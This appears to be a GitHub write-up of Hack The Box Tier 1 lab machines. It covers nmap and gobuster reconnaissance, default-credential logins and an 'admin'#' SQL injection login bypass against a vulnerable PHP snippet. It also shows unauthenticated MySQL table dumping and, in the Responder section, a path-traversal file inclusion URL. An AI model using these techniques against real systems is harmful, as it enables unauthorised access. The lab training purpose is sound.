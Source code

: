 #  Machine: Appointment

## Exploit: SQL Injection 

Nmap is a tool used to find open ports on a target
- ```sudo nmap {target_IP}```
  - ```sudo nmap -sC -sV {target_IP}```
    - ```-sV``` switch, stands for version detection 
    - ```-sC``` performs a script scan using the default set of scripts
- *Apache HTTP Server is a free and open-source application that runs web pages on either physical or virtual
web servers. It is one of the most popular HTTP servers, and it usually runs on standard HTTP ports such as
ports 80 TCP, 443 TCP, and alternatively on HTTP ports such as 8080 TCP or 8000 TCP*

 ![appointment_nmap](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_nmap.png?raw=true)

Since port 80 is open (http) we can go to the IP in our browser

**Gobuster**
```git clone https://github.com/danielmiessler/SecLists.git``` command downloads the wordlist
```gobuster dir --url http://{target_IP}/ --wordlist {wordlist_location}/directory-list-2.3-small.txt -x php,html```

Default credentials
- admin:admin
- guest:guest
- user:user
- root:root
- administrator:password

SQL injection
example how authentication works 

```
<?php
mysql_connect("localhost", "db_username", "db_password"); # Connection to the SQL
Database.
mysql_select_db("users"); # Database table where user information is stored.
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
# Query for user/pass retrieval from the DB.
$result=mysql_query($sql);
# Performs query stored in $sql and stores it in $result.
$count=mysql_num_rows($result);
# Sets the $count variable to the number of rows stored in $result.
if ($count==1){
 # Checks if there's at least 1 result, and if yes:
 $_SESSION['username'] = $username; # Creates a session with the specified $username.
 $_SESSION['password'] = $password; # Creates a session with the specified $password.
 header("location:home.php"); # Redirect to homepage.
 ```
 
 if we use **admin'#** in the username field,
 
 ```$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";```
 
 will read ```$sql="SELECT * FROM users WHERE username='admin'```, so password will be skipped with this SQL injection
 
![appointment_select](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_select.png?raw=true)

We can login with any password in the password field

![appointment_sql](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_sql.png?raw=true)

![appointment_sql1](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_sql1.png?raw=true)
 
#  Machine: Sequel

## Exploit: SQL database with mysql

- ```sudo nmap {target_IP}```
  - ```sudo nmap -sC -sV {target_IP}```
    - ```-sV``` switch, stands for version detection 
    - ```-sC``` performs a script scan using the default set of scripts

```sudo apt update && sudo apt install mysql*``` to download mysql

- ```mysql -h {target_IP} -u root```
  - -h : Connect to host.
  - -u : User for log-in if not current user.

![sequel_mysql](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/sequel_mysql.png?raw=true)

- mysql commands

```
SHOW databases; : Prints out the databases we can access.
USE {database_name}; : Set to use the database named {database_name}.
SHOW tables; : Prints out the available tables inside the current
database.
SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.
```

  - ```SHOW databases;``` to see our databases
  - ```USE htb;``` to change database
  - ```SHOW tables;``` to check the tables
  - ```SELECT * FROM config;``` to see our query of config

![sequel_mysql1](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/sequel_mysql1.png?raw=true)

#  Machine: Crocodile

## Exploit: FTP/PHP

- ```sudo nmap {target_IP}```
  - ```sudo nmap -sC -sV {target_IP}```
    - ```-sV``` switch, stands for version detection 
    - ```-sC``` performs a script scan using the default set of scripts

![crocodile_nmap](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_nmap.png?raw=true)

- Port 21 is open, ftp to the target IP
  - Use command ```get``` to download files from remote computer to the local computer
  - Use command ```bye``` to leave ftp

![crocodile_ftp](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_ftp.png?raw=true)

- Use command ```cat``` (concatenate) to read data from file and output the contents

![crocodile_cat](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_cat.png?raw=true)

**Gobuster**

```gobuster dir --url http://{target_IP}/ --wordlist {wordlist_location}/directory-list-2.3-small.txt -x php,html```

gobuster dir --url http://10.129.235.89 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html

![crocodile_gobuster](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_gobuster.png?raw=true)

- ```http://{target_IP}/login.php``` page
  - Use the username and password files to log in
![crocodile_login](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_login.png?raw=true)

![crocodile_flag](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_flag.png?raw=true)

#  Machine: Responder

## Exploit: 

- ```nmap -p- --min-rate {#} -sV {target_IP}```
  - ```-sV``` switch, stands for version detection 
  - ```-p- to scan ports from 1 through 65535``` 
  - ```--min-rate {#}``` specifies the minimum number of packets Nmap should send per second; it speeds up the scan as the number goes higher

nmap -p- --min-rate 5000 -sV

- Port 80 (http) and 5985 (WinRM) are open

![responder_nmap](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/responder_nmap.png?raw=true)

- *Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol that basically uses Simple Object Access Protocol to interact with remote computers and servers, as well as Operating Systems and applications. WinRM allows the user to :*
  - *→ Remotely communicate and interface with hosts*
  - *→ Execute commands remotely on systems that are not local to you but are network accessible.*
  - *→ Monitor, manage and configure servers, operating systems and client machines from a remote location.*
  - *As a pentester, this means that if we can find credentials (typically username and password) for a user who has remote management privileges, we can potentially get a PowerShell shell on the host.*

- If we visit the IP in the browser, we are redirected to Unika.htb

![responder_unika](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/responder_unika.png?raw=true)

- add the IP to the hosts file to redirect
  - ```echo "{target_IP} unika.htb" | sudo tee -a /etc/hosts```

![responder_unika2](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/responder_unika2.png?raw=true)

-File Inclusion vulnerability
 - multiple ../ strings are included in the URL so that the file handler on the server traverses back to the base directory i.e. ```C:\```
 - https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt
 - ```http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts```

